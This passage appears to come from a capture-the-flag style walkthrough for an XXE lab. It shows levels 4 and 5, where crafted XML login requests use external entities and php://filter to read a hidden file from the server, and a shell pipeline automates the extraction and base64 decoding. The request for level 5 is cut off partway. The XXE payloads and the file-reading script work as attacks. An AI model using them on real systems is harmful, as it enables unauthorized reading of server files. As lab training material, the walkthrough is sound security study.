 ```bash
```
NOTE: When extracting base64, the / char is escaped as \/, thus we need to remove the \ before decoding.
### Level 4
We Extract with burp as follows:
```bash
POST /login.php HTTP/1.1
Host: 4.xxe.labs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
AuthXXE: login
X-Requested-With: XMLHttpRequest
Content-Length: 276
Origin: http://1.xxe.labs
Connection: close
Referer: http://1.xxe.labs/

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "php://filter/convert.base64-encode/resource=/var/www/4/.letmepass" > ]>
<login>
<username>
&ext;
</username>
<password>
asd
</password>
</login>                                          
```
After decoding we see that we have a PNG file.
To automate:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/4/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g' \
| base64 -d > wohoo.png
```
The allowed username is in the image.
### Level 5
With Burp we get the content of 5/.letmepass:
```bash
POST /login.php HTTP/1.1
Host: 5.xxe.labs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
AuthXXE: login
X-Requested-With: XMLHttpRequest
Content-Length: 276
Origin: http://1.xxe.labs
Connection: close
Referer: http://1.xxe.labs/

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "php://filter/convert.base64-encode/resource=/var/www/5/.letmepass" > ]>
<login>
<username>
```